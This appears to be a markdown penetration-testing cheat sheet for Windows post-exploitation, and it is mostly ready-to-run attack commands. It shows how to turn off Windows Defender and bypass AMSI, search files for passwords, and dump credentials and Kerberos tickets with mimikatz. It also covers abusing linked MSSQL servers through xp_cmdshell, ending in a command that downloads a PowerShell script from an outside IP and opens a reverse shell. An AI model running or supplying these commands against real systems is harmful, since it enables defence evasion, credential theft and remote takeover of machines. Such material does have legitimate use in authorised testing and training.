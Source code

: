 ## Disable Antivirus  
### With Admin privileges  
Add a folder to the list of paths for which Windows Defender scheduled and real-time scanning is disabled:  
`PS C:\> Add-MpPreference –ExclusionPath “C:\Temp\User"`
  
Disable real-time protection:  
`PS C:\> Set-MpPreference –DisableRealtimeMonitoring $True`  

Some AMSI (Antimalware scan interface) bypass techniques:  
- `PS C:\> powershell.exe –version 2` (Downgrade to PowerShell 2.0 (.NET Framework 3.5 is required)  
- Crash the AMSI process by running payloads available « amsi.fail » (https://amsi.fail).  
  
## Search passwords  
### Enumerate local secrets by searching for keywords in files  
```
findstr /s /i /m "password" "C:\path\to\search\directory\*.*"
```
/s (findstr) or -Recurse (Get-ChildItem) option ensures that the search is performed in all subdirectories.  
/i (findstr) option or -CaseSensitive (Select-String) option performs a case-insensitive search.  
/m (findstr) option is used to print only the filenames with the matching content.  
`Get-ChildItem -Path C:\* -Include *.xml,*.ini,*.txt,*.config,*.ps1,*.bat, *.properties,*.cfg,*.vbs,*.wsf,*.cmd -ErrorAction SilentlyContinue -Recurse | Select-String "adm","<domain>","pass","pwd","mdp","cred","config","username","SecureString" -List | Select-Object -ExpandProperty Path`  
  
    
### With Admin privileges - Extract passwords  
`mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"`  
  
**Explanation :**  
`privilege::debug` & `token::elevate` Elevate Privileges to extract the credentials  
`sekurlsa::logonpasswords` Extracts creds from lsass (memory)  
`lsadump::lsa /inject` Extracts from lsass (service)  
`lsadump::sam` Extracts creds from SAM  

## Extract Kerberos tickets from memory  
### With Admin privileges 
   
`mimikatz.exe "privilege::debug" "token::elevate" "kerberos::list /export" "exit"`    


## MSSQL Privesc   
### Check if the local MSSQL DB is linked to another instance:  
`Get-SqlServerLinkCrawl -Verbose`  
  
**Manual trusted link queery** (From https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql)  
`Get-SQLQuery -Instance "DBWEB,1433" -Query "select * from openquery(""m4sqlz.m4c.loc"", 'select * from information_schema.tables')"`  
**Enable xp_cmdshell and check it**  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'SELECT * FROM OPENQUERY("m4sqlz.m4c.loc", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'`  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [m4sqlz.m4c.loc]'`  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [m4sqlz.m4c.loc]'`  
  
If you see the results of @@selectname, it worked  
Then :   
`osql -E -S "DBWEB" -Q "EXECUTE('xp_cmdshell whoami') AT [m4sqlz.m4c.loc];"`
OR   
`Get-SQLServerLinkCrawl -Instance CYWEBDW -Query "EXEC master..xp_cmdshell 'powershell.exe iex (iwr http://10.10.16.20:8080/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.20 -Port 443'"`  
  

